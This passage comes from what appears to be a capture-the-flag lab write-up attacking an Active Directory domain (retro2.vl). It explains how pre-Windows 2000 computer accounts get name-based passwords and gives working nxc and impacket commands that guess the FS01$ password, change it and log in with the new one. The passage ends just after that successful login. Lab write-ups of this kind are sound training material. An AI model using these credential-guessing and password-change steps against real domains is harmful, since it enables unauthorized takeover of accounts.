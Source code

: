 ```sh
pwdLastSet: 133683782775592607
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAA876dXxGyDj7Cbw6tbAQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: FS02$
sAMAccountType: 805306369
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=retro2,DC=vl
isCriticalSystemObject: FALSE
dSCorePropagationData: 20240817142538.0Z
dSCorePropagationData: 16010101000000.0Z
```

#### Pre-Windows 2000 computers 

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing $). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to TrustedSec's [blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

> so let's try to log in one if the two accounts: 

```sh
$ nxc smb 10.10.65.246 -u 'FS01$' -p 'fs01'   
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [-] retro2.vl\FS01$:fs01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```
`STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` error : when we have guessed the correct password for a computer account that has not been used yet.

Great, we now know the password for an account that we can use ., but we cannot use this computer account before the password has been changed. let's change it.

```sh
$ impacket-changepasswd retro2.vl/'FS01$':'fs01'@10.10.65.246 -protocol rpc-samr -newpass 'zenon@' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro2.vl\FS01$
[*] Connecting to DCE/RPC as retro2.vl\FS01$
[*] Password was changed successfully.

$ nxc smb 10.10.65.246 -u 'FS01$' -p 'zenon@'                                         
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\FS01$:zenon@                                      
```
Perfect !! , let's go :
